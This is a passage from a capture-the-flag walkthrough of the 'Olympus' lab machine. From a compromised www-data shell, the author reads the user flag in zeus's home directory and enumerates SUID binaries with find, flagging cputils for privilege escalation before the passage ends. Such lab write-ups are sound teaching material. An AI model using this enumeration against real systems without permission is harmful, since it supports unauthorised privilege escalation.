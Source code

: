 I find the **zeus**’s directory in `/home/` and navigate to it, then I get the user flag inside:

```
www-data@olympus:/$ ls -l /home/
ls -l /home/
total 4
drwxr-xr-x 7 zeus zeus 4096 Apr 19  2022 zeus
www-data@olympus:/$ cd /home/zeus
cd /home/zeus
www-data@olympus:/home/zeus$ ls -la
ls -la
total 48
drwxr-xr-x 7 zeus zeus 4096 Apr 19  2022 .
drwxr-xr-x 3 root root 4096 Mar 22  2022 ..
lrwxrwxrwx 1 root root    9 Mar 23  2022 .bash_history -> /dev/null
-rw-r--r-- 1 zeus zeus  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 zeus zeus 3771 Feb 25  2020 .bashrc
drwx------ 2 zeus zeus 4096 Mar 22  2022 .cache
drwx------ 3 zeus zeus 4096 Apr 14  2022 .gnupg
drwxrwxr-x 3 zeus zeus 4096 Mar 23  2022 .local
-rw-r--r-- 1 zeus zeus  807 Feb 25  2020 .profile
drwx------ 2 zeus zeus 4096 Apr 14  2022 .ssh
-rw-r--r-- 1 zeus zeus    0 Mar 22  2022 .sudo_as_admin_successful
drwx------ 3 zeus zeus 4096 Apr 14  2022 snap
-rw-rw-r-- 1 zeus zeus   34 Mar 23  2022 user.flag
-r--r--r-- 1 zeus zeus  199 Apr 15  2022 zeus.txt
```

```
www-data@olympus:/home/zeus$ cat user.flag
cat user.flag
flag{[REDACTED]}
```

## Horizontal Privilege Escalation

Using `find` to list all the files that set the **SUID** permission and I explore the **cputils** binary might be injectable:

```
www-data@olympus:/var/www/html$ find /usr/bin -perm -04000 -type f 2>/dev/null
<tml$ find /usr/bin -perm -04000 -type f 2>/dev/null
/usr/bin/cputils
/usr/bin/sudo
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/pkexec
/usr/bin/su
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/newgrp
www-data@olympus:/var/www/html$ ls -l /usr/bin/cputils
ls -l /usr/bin/cputils
-rwsr-xr-x 1 zeus zeus 17728 Apr 18  2022 /usr/bin/cputils
```
